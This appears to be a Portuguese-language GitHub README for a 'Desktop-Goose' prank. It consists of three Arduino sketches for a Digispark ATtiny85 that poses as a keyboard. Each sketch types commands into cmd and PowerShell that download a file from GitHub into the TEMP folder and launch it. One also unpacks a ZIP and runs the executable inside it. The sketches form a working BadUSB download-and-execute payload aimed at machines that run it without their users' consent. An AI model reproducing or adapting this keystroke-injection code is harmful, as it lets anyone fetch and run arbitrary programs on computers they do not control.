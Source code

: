 # Desktop-Goose
LINK

Arduino IDE (Digispark ATINY85)
Link ZIP:

#include "DigiKeyboard.h"

void setup() {
  DigiKeyboard.sendKeyStroke(0); // Inicializa
  DigiKeyboard.delay(1000);

  // Abre o Executar (Win + R)
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);

  // Digita "cmd" e aperta Enter
  DigiKeyboard.print("cmd");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);

  // Comando para baixar Desktop Goose
  DigiKeyboard.print("powershell -Command \"Invoke-WebRequest -Uri 'https://github.com/MrNuno/Desktop-Goose/raw/refs/heads/main/Desktop%20Goose%20v0.31.zip' -OutFile $env:TEMP\\goose.zip\"");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(5000); // espera baixar (pode aumentar se a net for lenta)

  // Abre o arquivo baixado
  DigiKeyboard.print("start $env:TEMP\\goose.zip");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
}

void loop() {
  // Não precisa repetir
}
--------------
#include "DigiKeyboardPtBr.h"

void setup() {
  pinMode(0, OUTPUT); 
  pinMode(1, OUTPUT);     
}

void loop() {  
  pisca_led(100);
  
  DigiKeyboardPtBr.sendKeyStroke(0);
  DigiKeyboardPtBr.delay(100);

  // Abrir Executar (Win + R)
  DigiKeyboardPtBr.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboardPtBr.delay(100);

  // Abrir CMD
  DigiKeyboardPtBr.println("cmd");
  DigiKeyboardPtBr.delay(500);
  DigiKeyboardPtBr.sendKeyStroke(KEY_ENTER);
  DigiKeyboardPtBr.delay(3000);   

  // Comando PowerShell para baixar o ZIP do Desktop Goose v0.31
  DigiKeyboardPtBr.print(
    "powershell -Command \"Invoke-WebRequest -Uri 'https://github.com/MrNuno/Desktop-Goose/raw/refs/heads/main/DesktopGoose%20v0.31.zip' -OutFile $env:TEMP\\goose.zip\""
  );
  DigiKeyboardPtBr.sendKeyStroke(KEY_ENTER);
  DigiKeyboardPtBr.delay(8000); // aguarda download (aumente se internet for lenta)

  // Descompactar o ZIP para a pasta TEMP
  DigiKeyboardPtBr.print(
    "powershell -Command \"Expand-Archive -Path $env:TEMP\\goose.zip -DestinationPath $env:TEMP -Force\""
  );
  DigiKeyboardPtBr.sendKeyStroke(KEY_ENTER);
  DigiKeyboardPtBr.delay(5000); // espera descompactar

  // Executar o GooseDesktop.exe extraído
  DigiKeyboardPtBr.print("start \"%TEMP%\\DesktopGoose v0.31\\GooseDesktop.exe\"");
  DigiKeyboardPtBr.sendKeyStroke(KEY_ENTER);

  // Piscar LEDs indicando fim
  pisca_led(1000);

  // Loop vazio (não repetir)
  for(;;) { }
}

void pisca_led(int velocidade) {  
  for (int inicio = 1; inicio <= 10; inicio++) {
    digitalWrite(0, HIGH); 
    digitalWrite(1, HIGH); 
    DigiKeyboardPtBr.delay(velocidade);  
    digitalWrite(0, LOW); 
    digitalWrite(1, LOW); 
    DigiKeyboardPtBr.delay(velocidade);  
  } 
}
-----------

Link EXE:

#include "DigiKeyboard.h"

void setup() {
  DigiKeyboard.sendKeyStroke(0); // Inicializa
  DigiKeyboard.delay(1000);

  // Abre o Executar (Win + R)
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);

  // Digita "cmd" e aperta Enter
  DigiKeyboard.print("cmd");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);

  // Comando para baixar Desktop Goose
  DigiKeyboard.print("powershell -Command \"Invoke-WebRequest -Uri 'https://github.com/MrNuno/Desktop-Goose/raw/refs/heads/main/GooseDesktop.exe' -OutFile $env:TEMP\\goose.zip\"");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(5000); // espera baixar (pode aumentar se a net for lenta)

  // Abre o arquivo baixado
  DigiKeyboard.print("start $env:TEMP\\goose.zip");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
}

void loop() {
  // Não precisa repetir
}


